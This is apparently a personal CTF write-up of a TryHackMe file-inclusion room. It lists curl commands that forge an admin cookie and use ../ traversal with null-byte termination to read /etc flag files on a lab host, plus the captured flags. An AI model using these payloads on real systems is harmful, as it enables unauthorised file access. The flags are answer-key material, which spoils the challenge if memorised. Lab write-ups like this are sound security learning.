 ```yaml
---
creation date: November 9th 2022
last modified date: November 9th 2022
aliases: []
tags: #🎌
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🎌  

# [[THM - File Inclusion]]  


# Resolution summary
- Found the base challenge to be easy except when it came to challenge 2. Got stuck on cookie value was able to find Admin cookie in a few seconds but failed to realize that it was using the cookie value as the file path.

## Improved skills
- Path Traversal
- Curl tool

## Used tools
- [[curl]]

---

# Information Gathering
Scanned all TCP ports:
```bash

```

Enumerated open TCP ports:
```bash

```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration


---

# Exploitation
## Path Traversal
### Challenge 1
1.  `curl -d "file=welcome.php" -X POST http://10.10.206.47/challenges/chall1.php`
	- Input form broken need to use curl to run a POST request and feeding it "file=welcome.php" as a test.
		- We got a reply indicating that the server is responding to our requests
2. `curl -d "file=/etc/flag1" -X POST http://10.10.206.47/challenges/chall1.php`
	- Question indicated that flag was located at **/etc/flag1** tried to navigate there with **SUCCESS**
		- F1x3d-iNpu7-f0rrn
### Challenge 2
1. `curl -b "THM=Admin" -X POST http://10.10.206.47/challenges/chall2.php`
	- Form is blocked only allowing admins to view.
	- This value is set in cookie found while looking at Dev Tools > Network
	- Above command bypasses this and gets us a reply of "Welcome Admin"
2. `curl -b "THM=../../../" -X POST http://10.10.206.47/challenges/chall2.php`
	- Testing what happens if we feed other cookies
	- Found that its showing its using the Cookies value and adding on .php **../../../.php**
3. `curl -b "THM=../../../../../../etc/flag2%00" -X POST http://10.10.206.47/challenges/chall2.php`
	- Given flag at this point
		- c00k13_i5_yuMmy1
### Challenge 3
1. `curl http://10.10.206.47/challenges/chall3.php -d "file=../../../../../../etc/flag3%00" -o Challenge3.txt`
	- Spent a while trying to submit through but kept having my `../` removed even when trying `....//`
	- Finally tested with a **POST** and success it was filtering **GET**
2. Opened the file I saved output to and found the flag
	- P0st_1s_w0rk1in9

---

# Trophy & Loot
- Challenge 1: F1x3d-iNpu7-f0rrn
- Challenge 2: c00k13_i5_yuMmy1
- Challenge 3: P0st_1s_w0rk1in9
___

## Resources:

| Hyperlink                                 | Info |
| ----------------------------------------- | ---- |
| [THM](https://tryhackme.com/room/fileinc) | CTF  | 


Created Date: November 9th 2022 (10:20 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
